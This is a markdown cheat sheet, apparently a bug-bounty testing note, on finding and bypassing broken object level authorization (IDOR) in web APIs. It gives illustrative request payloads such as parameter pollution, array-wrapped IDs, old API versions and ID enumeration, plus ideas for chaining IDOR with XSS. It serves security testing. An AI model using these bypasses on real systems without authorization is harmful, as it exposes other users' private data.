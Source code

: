# IDOR

## Testing for IDOR/Broken object level authorization:

Difficulty: Easy 

Tips: Don't blindly test for changing numbers till you get PII, tools can do this for you

**Finding IDOR Attack Vectors Ideas:**

1. What  do they use for authorization?(JWT, API Keys, cookies, tokens) Tip: Find this out by replacing high privaledge authorization with lower privaledge authorization and seeing what the server responds with
2. Understand how they use ID's, hashes, and their API. Do this by looking at the API Documentations if they have one.

***Every time you see a new API endpoint that receives an object ID from the client, ask yourself the following questions:***

- Does the ID belong to a private resource? (e.g /api/user/123/news vs  /api/user/123/transaction)
- What are the IDs that belong to me?
- What are the different possible roles in the API?(For example — user, driver, supervisor, manager)

## Bypassing Object Level Authorization:

- Add parameters onto the endpoints for example, if there was

```html
GET /api_v1/messages --> 401
vs 
GET /api_v1/messages?user_id=victim_uuid --> 200
```

- HTTP Parameter pollution

```html
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK

GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

- Add .json to the endpoint, if it is built in Ruby!

```html
/user_data/2341 --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

- Test on outdated API Versions

```html
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

* Wrap the ID with an array.

```html
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

* Wrap the ID with a JSON object:

```html
{“id”:111} --> 401 Unauthriozied

{“id”:{“id”:111}} --> 200 OK
```

* JSON Parameter Pollution:

```html
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

- Try to send a wildcard(*) instead of an ID. It’s rare, but sometimes it works.
- If it is a number id, be sure to test through a large amount of numbers, instead of just guessing
- If endpoint has a name like /api/users/myinfo, check for /api/admins/myinfo
- Replace request method with GET/POST/PUT
- Use burp extension autorize
- If none of these work, get creative and ask around!

## Escalating/Chaining with IDOR's Ideas:

1.  Lets say you find a low impact IDOR, like changing someone elses name, chain that with XSS and you have stored XSS!
2. If you find IDOR on and endpoint, but it requires UUID, chain with info disclosure endpoints that leak UUID, and bypass this!
3. If none of these work, get creative and ask around!

